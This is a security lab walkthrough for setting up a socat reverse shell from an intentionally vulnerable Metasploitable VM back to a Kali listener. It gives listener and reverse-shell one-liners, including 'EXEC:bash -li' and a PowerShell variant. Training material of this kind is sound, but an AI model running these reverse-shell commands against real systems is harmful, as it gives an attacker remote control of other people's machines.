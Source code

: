 - [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use the socat tool to get a reverse shell on a target.

**Lab Purpose:**

Socat is a command line-based utility that establishes two bi-directional byte streams and transfers data between them. Socat can be used for many different purposes due to its versatility.

**Lab Tool:**

Kali Linux and Metasploitable VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using socat to create a reverse shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware, the same as Kali Linux. You can download the metasploitable iso file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the Metasploitable VM.

![Metasploitable VM](attachements/Metasploitable_VM-1.png)

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Socat comes pre-installed on Kali Linux. The main difference between netcat and socat is that the syntax for using socat is more difficult to understand. Socat is used to make connections between two points. These points can be anything. We will begin by creating a reverse shell connecting our Kali VM to our Metasploitable VM.

First, let’s find out the eth0 IP address of our Kali VM and write it down. We will use this information on our Metasploitable VM. Open a terminal screen in Kali VM and type this command:

ifconfig

![Metasploitable VM](attachements/Metasploitable_VM-2.png)

192.168.56.103 is IP address of our Kali VM in this case.

Then, establish a listener on our Kali VM by typing the following:

socat TCP-L:8080 –

This creates a listener on our Kali VM and is the equivalent of typing “nc -lvnp 8080” in netcat.

### Task 3:

We will then switch to our Metasploitable VM and type the following to connect back to our Kali VM:

![Metasploitable VM](attachements/Metasploitable_VM.png)

socat TCP: 192.168.56.103:8080 EXEC:”bash -li”

If we return to our Kali terminal and attempt to execute commands such as “id” and “whoami”, we can see that we have succesfully established a shell to our metasploitable machine.

![socat](attachements/socat.png)

This is an unstable shell and it is not interactive, as you can see processes such as SSH do not work. crtl + c will also kill the shell. This is a useful technique to know, however, in the event that netcat does not work. Socat is also very versatile and it is much easier to stabilise the shell, as you will see in a later lab.

If we were to attempt to establish a reverse shell using socat on a windows machine, we would need to change the syntax of the command connecting back to our Kali machine from the Windows machine. The syntax would change to the following:

socat TCP:: EXEC:powershell.exe,pipes

This command will use the Windows Powershell instead of bash to create the shell. The pipes options forces powershell to use Unix style standard input and output, which makes it easier for us to use the shell.